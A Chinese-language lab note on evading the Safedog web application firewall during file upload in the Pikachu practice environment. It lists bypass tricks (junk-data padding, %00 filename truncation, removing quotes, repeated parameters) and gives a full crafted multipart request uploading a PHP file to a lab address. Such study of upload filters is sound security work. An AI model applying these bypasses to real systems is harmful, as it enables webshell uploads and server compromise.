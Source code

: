 ![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627433334141-cb693e43-53e8-4e28-80b9-b2c08e23f2f6.png?x-oss-process=image%2Fresize%2Cw_752%2Cresize%2Cw_752%2Cresize%2Cw_752#from=url&id=JsaOH&originHeight=1203&originWidth=752&originalType=binary&ratio=1&status=done&style=none)<br />**上传参数名解析：明确有哪些东西能修改？**
```bash
Content-Disposition:	一般可更改

name:	表单参数值，不能更改

filename :文件名，可以更改

Content-Type:文件MIME，视情况更改

```
**常见的绕过方法**
```bash
数据溢出-防匹配(xxx.. .)

符号变异-防匹配（'" ;)

数据截断-防匹配(%00 ;换行)

重复数据-防匹配(参数多次)

```
<a name="ds9Ci"></a>
### pikachu+安全狗绕过
[https://www.cnblogs.com/shley/p/14800623.html](https://www.cnblogs.com/shley/p/14800623.html)
<a name="JBDPh"></a>
#### 数据溢出
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627898182231-4ded8499-dc64-45ef-bbed-2a583dafb048.png#clientId=uddea3477-8c3f-4&from=paste&height=323&id=ufe9d4c0f&originHeight=645&originWidth=1920&originalType=binary&ratio=1&size=76446&status=done&style=none&taskId=u4eef90c0-87b8-4144-b72f-22845d1a895&width=960)<br />正常上传的情况<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627898978466-0def010f-fce2-435b-b92a-ad1e77294d14.png#clientId=uddea3477-8c3f-4&from=paste&height=287&id=ue622e5ea&originHeight=573&originWidth=1920&originalType=binary&ratio=1&size=116761&status=done&style=none&taskId=u52e3ecdf-83da-45af-be3f-8b0c4cf2bf1&width=960)<br />被安全狗拦截的情况<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627898889066-ba927953-805b-446e-a0c8-28a8e437dcec.png#clientId=uddea3477-8c3f-4&from=paste&height=337&id=u361dcabd&originHeight=673&originWidth=1916&originalType=binary&ratio=1&size=139759&status=done&style=none&taskId=u8072de7b-d7bc-41b3-b027-9ffcadaf8bc&width=958)<br />修改数据包上传`Content-Disposition: form-data; name="uploadfile";`中间插入大量的垃圾数据从而绕过。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627898527403-03b55f1a-41a2-497a-a53b-61c5259b6895.png#clientId=uddea3477-8c3f-4&from=paste&height=471&id=uc431c63a&originHeight=941&originWidth=1920&originalType=binary&ratio=1&size=99164&status=done&style=none&taskId=u65aa1e76-3123-444f-9735-158a501a03f&width=960)
<a name="mocm2"></a>
#### %00截断
<br />`使用%00截断，添加合法后缀名`<br />格式：文件名.php%00.png<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627899356581-b6e5d1ad-4866-462f-a894-2b8abda1134a.png#clientId=uddea3477-8c3f-4&from=paste&height=296&id=u4cf08697&originHeight=591&originWidth=1920&originalType=binary&ratio=1&size=118604&status=done&style=none&taskId=u3ec903a7-5f96-4227-b680-a6800f18d25&width=960)
<a name="D70ka"></a>
#### 改变符号
去掉双引号
```bash
POST /vul/unsafeupload/servercheck.php HTTP/1.1
Host: 10.1.1.6:88
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------276594773132894662704244861418
Content-Length: 367
Origin: http://10.1.1.6:88
Connection: close
Referer: http://10.1.1.6:88/vul/unsafeupload/servercheck.php
Cookie: PHPSESSID=e405r8e634hhjk7su64ofmjknl
Upgrade-Insecure-Requests: 1

-----------------------------276594773132894662704244861418
Content-Disposition: form-data;name="uploadfile"; filename=info4.php
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------276594773132894662704244861418
Content-Disposition: form-data; name="submit"

```